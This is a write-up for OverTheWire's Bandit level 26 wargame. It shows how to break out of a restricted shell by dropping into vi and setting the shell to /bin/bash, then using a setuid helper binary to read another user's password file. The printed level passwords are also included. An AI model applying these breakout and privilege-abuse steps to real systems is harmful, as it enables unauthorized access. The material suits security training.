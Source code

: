 <h1>Bandit 26</h1>

<h2 id="level-goal">Level Goal</h2>
<p>Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not <strong>/bin/bash</strong>, but something else.
Find out what it is, how it works and how to break out of it.</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>ssh, cat, more, vi, ls, id, pwd</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit26@bandit.labs.overthewire.org -p 2220
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

So we know this does not work because we get logged out immediately. We need to go back to level 25, resize the terminal again, log into bandit 26 again and try to obtain a shell.

```
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost
v
:set shell ?
    shell=/usr/bin/showtext
:set shell=/bin/bash
:set shell ?
    shell=/bin/bash
:shell
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ file bandit27-do
bandit27-do: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8e941f24b8c5cd0af67b22b724c57e1ab92a92a1, not stripped
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```

<a href="bandit25.md">Level 25</a>
<a href="bandit27.md">Level 27</a>
